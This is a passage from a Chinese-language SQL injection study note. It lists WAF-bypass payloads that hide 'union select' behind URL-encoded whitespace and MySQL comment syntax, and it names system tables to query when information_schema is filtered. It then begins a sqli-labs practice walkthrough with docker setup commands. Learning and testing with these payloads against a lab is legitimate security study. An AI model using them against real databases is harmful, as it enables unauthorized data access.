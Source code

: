 ```sql
%250aunion%250aselect 1,2
%09union%09select 1,2
%0caunion%0cselect 1,2
%0daunion%0dselect 1,2
%0baunion%0bselect 1,2
%0d%0aunion%0d%0aselect 1,2
--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2
/*!12345union*//*!12345select*/1,2;
/*中文*/union/*中文*/select/*中文*/1,2;
/* */union/* */select/ */1,2;
/*!union*//*!00000all*//*!00000select*/1,2
```

### 2.27 information_schema绕过

使用`sys.schema_auto_increment_columns`、`mysql.innodb_table_stats`和`mysql.innodb_table_index`绕过

## 3. sqli-labs通关

这里跟着[国光佬](https://www.sqlsec.com/2020/05/sqlilabs.html)学习

### 3.1 准备工作

**sqli-labs环境搭建**

```bash
docker pull acgpiano/sqli-labs
docker run -dt --name sqli-labs -p 8888:80 acgpiano/sqli-labs:latest
```

中间可能报错，只需要关闭代理就行。

```bash
Error response from daemon: Head "https://registry-1.docker.io/v2/acgpiano/sqli-labs/manifests/latest": Get "https://auth.docker.io/token?account=squarehhh&scope=repository%3Aacgpiano%2Fsqli-labs%3Apull&service=registry.docker.io": EOF
```

访问网页，环境搭建完毕。

![image-20250305014536324](sql注入/image-20250305014536324.png)
